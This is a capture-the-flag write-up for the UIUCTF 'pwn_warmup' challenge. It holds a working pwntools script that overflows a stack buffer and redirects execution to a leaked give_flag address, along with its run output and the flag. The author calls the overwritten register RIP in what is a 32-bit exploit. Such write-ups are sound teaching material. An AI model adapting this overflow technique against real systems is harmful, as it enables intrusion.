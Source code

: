 ## Problem ##

Hmm this time we arent just going to give you the flag like last year... What can you do?!

`nc pwn-warmup.chal.uiuc.tf 1337` author: `Thomas`

## Solution ##

Running the provided binary yields:

```console
root@osboxes:~/Downloads# ./pwn_warmup 
This is SIGPwny stack3, go
&give_flag = 0x80485ab

```

Feeding inputs of various length to the binary we determine that we can overrite RIP to take control of program execution. The specific goal is to jump to the address of the `give_flag` function which is provided when running the binary. On the server this address changes with every run. Here is my solution script:


```py
from pwn import *

HOST = 'pwn-warmup.chal.uiuc.tf'
PORT = 1337
BINARY = './pwn_warmup'

sh = remote(HOST, PORT)

print sh.recvline() # This is SIGPwny stack3, go
print sh.recvline()
give_flag =  sh.recvline().strip().split(" = ")[1] # This line contains the memory address of give_flag
ret_addr =  p32(int(give_flag,16))

payload = "A" * 20 + ret_addr
sh.sendline(payload)
print sh.recvline()

sh.close()
```

Here is the output when running of running the script:

```console
root@osboxes:~/Downloads# python pwn_warmup.py 
[+] Opening connection to pwn-warmup.chal.uiuc.tf on port 1337: Done
== proof-of-work: disabled ==

This is pwn_warmup, go

uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}

[*] Closed connection to pwn-warmup.chal.uiuc.tf port 1337
```

The flag is **uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}**
